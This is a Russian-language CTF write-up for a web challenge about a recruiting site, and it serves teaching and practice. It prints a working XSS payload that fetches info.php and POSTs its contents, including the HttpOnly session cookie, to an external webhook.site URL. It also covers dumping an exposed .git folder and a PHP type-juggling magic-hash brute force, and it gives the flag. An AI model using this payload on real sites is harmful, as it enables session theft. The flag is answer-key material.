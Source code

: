 # Рекрутер | hard | web

## Информация
> Год назад я завалил ЕГЭ по информатике, после чего мой учитель сказал, что я никогда не устроюсь работать программистом... но ведь я и не программист...

## Выдать участникам
Ссылка [link](public/)

## Описание
Необходимо реализовать XSS с использованием страницы info.php, а также подобрать необходимый пароль с помощью php type juggling

## Решение
На главной странице есть форма отправки резюме. Если попытаться что-то отправить, появится сообщение об ошибке с ссылкой на ТГ-бота, которому необходимо отправить ссылку на резюме. Этот ТГ-бот умеет переходить по ссылкам. Чтобы это проверить, можно отправить ему ссылку на вебхук.

![smb](solve/webhook.png)

На сайте отсутствует регистрация, и следовательно, нужно каким-то образом получить креденты для входа в аккаунт. Не трудно заметить, что сайт написан на PHP, поэтому, вероятно, сессия пользователя хранится в PHPSESSID. 
Далее можно заметить, что пользовательский ввод в параметре send отображается на странице. Следовательно, на сайте присутствует XSS-уязвимость.

![smb](solve/xssalert.png)

Следовательно, можно украсть сессию у HR'а, отправив ему ссылку, в которой пейлоад будет записан в параметр send. Однако на этом сайте у куки установлен флаг HttpOnly, который не позволяет получить куки с помощью document.cookie. 

Чтобы все-таки получить куки, необходимо воспользоваться страницей info.php, на которой для каждого пользователя выводится множество значений, включая куки.

Итоговый пейлоад выглядит так:
```js
http://qookie.tech:30057/?send=<script>payload="fetch(%27http://qookie.tech:30057/info.php%27).then(resp=>resp.text()).then(data=>fetch(%27https://webhook.site/7e54f652-c2f3-41cd-9353-b1218b08fbce%27,{method:%27POST%27,body:data}))";window.open("http://qookie.tech:30057/?send=<svg%0Conload=eval(name)>",payload);</script>
```
![smb](solve/phpsessid.png)

Когда сессия получена, осталось только подменить её и получить доступ к аккаунту.

После входа в аккаунт HR'а нужно принять любого из подавших заявления кандидатов. Также требуется знать секретный код HR'а для этого действия. Следовательно, нужно продолжить анализировать приложение. Первым делом нужно пофаззить директории на сайте.

![smb](solve/dirsearch.png)

Можно заметить, что на сайте существует папка .git, в которой существует информация о прошлых коммитах приложения. Необходимо воспользоваться утилитой [GitTools](https://github.com/internetwache/GitTools/tree/master), которая позволяет сдампить всю нужную нам информацию. Далее через эту утилиту можно восстановить несколько прошлых коммитов этого приложения и понять логику проверки секретного кода HR'а.

![smb](solve/secret_code.png)

В глаза бросается уязвимость php type juggling, в которой нам необходимо подобрать такой код, хеш которого должен начинаться на 0e и состоять только из цифр. Это можно сделать на питоне или найти в гугле.

```python
import hashlib

for i in range(0, 1000000000000000):
  string_to_hash = str(i)
  md5_hash = hashlib.md5(string_to_hash.encode()).hexdigest()

  if md5_hash.startswith("0e") and md5_hash[2:].isdigit():
    print(f"Найдено число: {i}, хэш: {string_to_hash}|{md5_hash}")
    break
```

Далее необходимо вставить код и получить флаг.

## Флаг
`NQ20244ca76b6f7f63ab7a3e7491ecc2496f4929348bc67e563d90b89eb32febc8bd59`
